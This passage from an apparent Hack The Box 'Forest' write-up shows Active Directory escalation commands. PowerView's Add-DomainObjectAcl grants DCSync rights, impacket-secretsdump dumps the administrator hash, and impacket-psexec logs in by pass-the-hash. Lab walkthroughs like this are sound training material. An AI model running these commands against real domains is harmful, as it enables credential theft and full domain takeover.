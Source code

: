We will now import Powerview.ps1

```bash
ipmo .\powerview.ps1
```
![](/assets/images/htb/forest/25.png)

Let's create a PSCredential object.  

```powershell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb\Dirty', $SecPassword)
```
With Powerview imported, we will now run the following command.

```bash
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity Dirty -Rights DCSync
```

![](/assets/images/htb/forest/26.png)

This will grant us the DCSync rights we need to complete the process of obtaining the admin's hash.

Finally, on our system, we will run `impacket-secretsdump`

```bash
impacket-secretsdump htb.local/Dirty:'Password123!'@10.129.236.33
```

![](/assets/images/htb/forest/27.png)

Now that we have the administrator hash, we can use `impacket-psexec` to log in as an administrator.  

```bash
impacket-psexec htb.local/administrator@10.129.236.33 -hashes :<nthashhere>
```

![](/assets/images/htb/forest/28.png)

---